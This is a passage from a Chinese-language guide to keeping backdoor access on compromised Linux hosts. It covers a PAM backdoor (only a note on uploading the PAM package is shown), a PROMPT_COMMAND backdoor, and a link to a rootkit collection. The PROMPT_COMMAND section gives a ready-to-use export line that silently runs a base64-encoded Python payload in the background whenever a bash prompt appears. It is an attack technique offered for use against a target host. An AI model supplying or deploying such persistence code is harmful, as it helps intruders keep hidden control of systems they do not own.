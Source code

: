 ```bash
```

可以根据需要将下载pam部分修改为上传本地下载好的pam，这样可以避免目标主机无法访问对应链接地址时造成的文件下载失败。

Linux PAM版本地址：<http://www.linux-pam.org/library/>

详细情况可参考<https://blog.51cto.com/redkey/1343316>

### 5. PROMPT_COMMAND后门

bash提供来一个环境变量`PROMPT_COMMAND`，这个变量会在执行命令前执行一遍。

```bash
export PROMPT_COMMAND="lsof -i:1025 &>/dev/null || (python -c "exec('encoded_payload'.decode('base64'))" 2>/dev/null &)"
```

也可以使用该变量进行提权：<https://www.anquanke.com/post/id/155943>

### 7. Rootkit

根据搜索情况来看，一般水平的rootkit很容易将系统环境搞崩，而高质量的Rootkit不太容易找，因此如非迫不得已，不是很建议直接使用这种方法。如果能单独进行定制，是另外一种情况。这里暂时先给出一个收集的rootkit库：<https://github.com/d30sa1/RootKits-List-Download>

## 参考文献

1. <https://wiki.bash-hackers.org/howto/redirection_tutorial>
2. <https://www.gnu.org/software/bash/manual/html_node/Redirections.html>
3. <https://brucetg.github.io/2018/05/03/%E5%A4%9A%E7%A7%8D%E5%A7%BF%E5%8A%BF%E5%8F%8D%E5%BC%B9shell/>
4. <https://www.anquanke.com/post/id/171891#h2-15>
5. <https://bypass007.github.io/Emergency-Response-Notes/privilege/%E7%AC%AC4%E7%AF%87%EF%BC%9ALinux%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81--%E5%90%8E%E9%97%A8%E7%AF%87.html>
6. <https://www.anquanke.com/post/id/155943#h2-9>



